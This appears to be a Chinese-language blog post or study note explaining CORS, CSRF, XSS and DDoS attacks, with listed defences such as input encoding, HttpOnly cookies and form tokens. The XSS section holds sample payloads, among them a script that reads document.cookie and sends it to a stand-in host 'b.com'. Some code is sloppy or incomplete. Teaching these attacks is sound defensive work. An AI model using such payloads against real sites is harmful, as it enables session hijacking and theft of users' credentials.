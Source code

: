 ```yaml
---
title: xss、cors、cc的攻击和防御
date: 2018-04-09 15:09:55
tags: http
---
```


## cors
- 定义
    - Cross-Origin Resource-Sharing（跨站资源共享）
    - 当一个资源从与该资源所在的服务器不同域请求资源时，会发起一个跨域http请求，如 a.com 的html( &lt;img src="cdn.com/a.png" /&gt; )向 cdn.com 请求图片等资源，网络上的许多站点都会加载来自不同域的css样式、图像、脚本等资源
    - 可指定一个origin，在许可范围内
- 同源策略
    - 浏览器限制从脚本发出的跨域http请求，ajax遵循同源策略
    - jsonp
- 使用cors进行跨域
    - 在请求头中携带origin的header
    - 服务端响应头添加 Access-Control-Allow-Origin || Access-Control-Allow-Methods ，来返回验证结果
- csrf
    - Cross-Site Request Forgery（跨站请求伪造）
    - 用户通过浏览器正常访问站点A，通过A的身份认证A站点，A产生所使用的cookie等验证信息
    - 此时A保持登录状态，另起一个窗口打开B站点，站点B接收到用户请求后，返回一些攻击代码请求A的资源
    - 浏览器执行恶意代码，在用户不知情情况下携带cookie等用户验证信息，向A发起请求，导致来自B的恶意代码被执行
    - 代码
    ```JavaScript
        <script>
            var a = `a.com/a.php?user="hhj"&pwd="j"`;
            var b = `b.com`;
        </script> 
    ```
    - 防御
        - 重要数据交互采用post进行接受
        - 使用验证码
        - 验证Http Referer字段，即此次Http请求的来源地址
        - 为每个表单添加Token并验证

## xss
- Cross-Site Scripting（跨站脚本攻击），防止与css一样，用xss；指攻击者在页面里插入而已script代码，当用户浏览页面时，嵌入其中的恶意代码会被执行
- 攻击方式
    - 发出请求时，xss代码出现在url中，作为输出会被提交并解析后响应，最后返回给浏览器，浏览器解析执行xss代码
    ```JavaScript
        <script>
            var url = `a.com?send="<script>alert('xss test')<script>"`; // 里面的xss test会被执行
            var url = `a.com?send="<script type='text/script' src='src/xss.js'><script>"`; // 执行这段js
        </script>
    ```
    - 表单存到数据库的时候，攻击者会将恶意代码保存至数据库，后面客户端执行至这段代码会被恶意执行
    ```html
        <input type="text" value="<script>alert('xss test')</script>" /> 
        <!-- 保存至数据库，后面从数据库拉去数据在页面执行的时候，会恶意执行 -->
        <input type="text" value="<div>破坏布局，伪造页面效果</div>" /> 
        <input type="text" value="#123" />
        <!-- php中的#会被当成注释、如其他里面可以试试// || /**/ -->
        <sctipt>
            var s = document.cookie, h = document.createElement('a');
            h.href = "b.com?"+ s;
            h.innerHtml = '<img src="../xss.png">';
            document.body.appendChild(h);
        </script>
    ```
    - 
- 防御
    - “所有的输入都是有害的”：对输入数据进行过滤
        - 对数据进行html encode处理
        - 对一些特殊符号进行转义，例如<script>、<iframe>、&lt < 、&gt >、
        - 过滤js事件的标签，例如onclick、onfoucus
    - 将重要的cookie标记为http only，这样页面上js的document.cookie语气就不能获取到cookie
    - 对数据
    - 服务器段对输入的数据进行xss clean处理

## ddos
- distributed Denial Of Service（分布式拒绝服务攻击）
- 通过大量合法请求占用大量资源，以达到瘫痪网络的目的。
    - 通过向服务器提交大量请求，使服务器超负荷
    - 阻断某服务与特定系统或个人的通讯
    - ip欺骗是一种黑客通过像服务器发送虚假包以欺骗服务器的做法，服务器接收到包便会返回接受请求包，但实际上这个包是虚假的包无法返回到来源处，这就造成了浪费服务器的资源
    - 攻击请求包中的源地址和目标地址，导致被攻击的机器死循环，最终耗尽资源而死机
- 被攻击现象（百度百科）
    - 被攻击主机上有大量等待的Tcp连接
    - 网络中存在大量的无用数据包
    - 源地址为假，制造高流量无用数据，造成网络拥堵，使得受害主机无法正常和外界通讯
- 防御
    - 关闭没必要的服务
    - 黑名单机制
    - 加大服务量

## sql注入

## cc攻击

## 参考链接
- [cors.csrf](https://yq.aliyun.com/articles/69313)
- [xss](https://www.cnblogs.com/phpstudy2015-6/p/6767032.html#_label3)
- [ddos](https://baike.baidu.com/item/%E5%88%86%E5%B8%83%E5%BC%8F%E6%8B%92%E7%BB%9D%E6%9C%8D%E5%8A%A1%E6%94%BB%E5%87%BB)